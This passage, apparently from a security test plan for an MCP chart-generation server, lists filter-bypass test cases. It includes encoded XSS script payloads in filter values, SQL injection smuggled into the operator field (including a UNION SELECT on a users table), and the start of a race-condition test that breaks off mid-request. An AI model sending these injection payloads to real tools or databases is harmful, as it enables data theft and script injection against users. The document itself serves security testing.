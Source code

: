 ```json
  }
```

## Advanced Filter Bypass Techniques

### 1. Filter Encoding Attacks
```json
# Test Case: Various encoding attempts
mcp__mcp-server__generate_chart {
  "request": {
    "dataset_id": 1,
    "config": {
      "chart_type": "table",
      "columns": [{"name": "product"}],
      "filters": [
        {"column": "name", "op": "=", "value": "\u003cscript\u003ealert(1)\u003c/script\u003e"},
        {"column": "desc", "op": "=", "value": "\\x3cscript\\x3ealert(2)\\x3c/script\\x3e"},
        {"column": "info", "op": "=", "value": "%3Cscript%3Ealert(3)%3C%2Fscript%3E"}
      ]
    }
  }
}
```

### 2. Operator Injection
```json
# Test Case: Inject via operator field
mcp__mcp-server__generate_chart {
  "request": {
    "dataset_id": 1,
    "config": {
      "chart_type": "table",
      "columns": [{"name": "product"}],
      "filters": [
        {"column": "price", "op": "= 100 OR 1=1 --", "value": "0"},
        {"column": "status", "op": "!= 'active' UNION SELECT * FROM users --", "value": "test"}
      ]
    }
  }
}
```

## Concurrency & Race Condition Exploits

### 1. TOCTOU (Time-of-Check Time-of-Use)
```json
# Execute these in rapid succession
# Request 1: Create preview
mcp__mcp-server__generate_chart {
  "request": {
    "dataset_id": 1,
    "config": {"chart_type": "table", "columns": [{"name": "safe_column"}]},
    "save_chart": false
  }
}

# Request 2: Immediately update with malicious content
mcp__mcp-server__update_chart_preview {
  "request": {
    "form_data_key": "[KEY_FROM_REQUEST_1]",
    "dataset_id": 1,
    "config": {
```